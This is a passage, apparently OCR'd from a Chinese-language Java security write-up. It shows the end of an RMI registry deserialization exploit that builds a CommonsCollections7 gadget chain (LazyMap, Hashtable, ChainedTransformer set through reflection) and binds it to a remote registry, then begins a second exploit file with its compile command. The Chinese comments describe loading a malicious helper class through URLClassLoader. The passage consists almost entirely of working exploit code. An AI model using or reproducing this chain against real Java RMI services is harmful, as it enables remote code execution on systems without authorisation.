 ```java
                {
                    null,
                    new Object[]
                    {
                        evilparam
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( new Transformer[0] );
        Map             normalMap_0 = new HashMap();
        Map             normalMap_1 = new HashMap();
        Map             lazyMap_0   = LazyMap.decorate( normalMap_0, tchain );
        Map             lazyMap_1   = LazyMap.decorate( normalMap_1, tchain );
        lazyMap_0.put( "scz", "same" );
        lazyMap_1.put( "tDz", "same" );
        Hashtable       ht          = new Hashtable();
        ht.put( lazyMap_0, "value_0" );
        ht.put( lazyMap_1, "value_1" );
        lazyMap_1.remove( "scz" );
        Field           f           = ChainedTransformer.class.getDeclaredField( "iTransformers" );
        f.setAccessible( true );
        f.set( tchain, tarray );
        /*
         * 前面在准备待序列化数据，后面是一种另类的序列化过程
         */
        String          name        = "anything";
        GeneralInvocationHandler3
                        ih          = new GeneralInvocationHandler3( ht );
        Remote          remoteProxy = ( Remote )Proxy.newProxyInstance
        (
            Remote.class.getClassLoader(),
            new  Class[] { Remote.class },
            ih
        );
        Registry        r           = LocateRegistry.getRegistry( addr, port );
        r.rebind( name, remoteProxy );
    }
}
```

用到CommonsCollections7，用到URLClassLoader，需要和DoSomething配合使用。故
意演示调用DoSomething中的恶意成员函数Operator()，而不是调用恶意构造函数。
没啥本质区别，不过用恶意构造函数的话，兼容性更广。

14.3) RMIRegistryExploitWithHashtable2.java

```java
/*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar:." RMIRegistryExploitWithHashtable2.java
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.*;
import java.net.URL;
import java.net.URLClassLoader;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

/*
 * 从RMIRegistryExploitWithHashtable.java修改而来，优化输出
```